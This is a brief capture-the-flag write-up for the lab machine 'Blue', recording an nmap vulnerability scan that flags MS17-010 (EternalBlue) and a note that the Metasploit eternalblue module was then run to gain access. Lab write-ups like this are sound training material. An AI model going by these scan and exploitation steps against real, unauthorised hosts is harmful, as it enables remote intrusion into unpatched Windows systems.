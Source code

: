 Name: Blue
IP:   10.10.10.40
OS:   Windows

This one is probably going to be rather easy considering it's named Blue and EnternalBlue is a notable attack against Windows systems.  Lets jump in.


I ran a Nmap scan against the host and it came back vulnerable to MS17-010, AKA EternalBlue.

    sudo nmap --script vuln -oN nmap/vulnscript 10.10.10.40
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-17 13:00 CDT
    Nmap scan report for 10.10.10.40
    Host is up (0.031s latency).
    Not shown: 991 closed ports
    PORT      STATE SERVICE
    <snip..>
    Host script results:
    | smb-vuln-ms17-010: 
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |           
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
    |_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
  
    Nmap done: 1 IP address (1 host up) scanned in 111.35 seconds
  
This exploit's pretty easy to do, which adds to the criticality of it.  Lauched Metasploit and ran the windows/smb/ms17_010_eternalblue module against the host.

![blueMSF.png](./resources/blueMSF.png "EB MSF Module")

That was easy.  Lets see who we are.

photo of system.
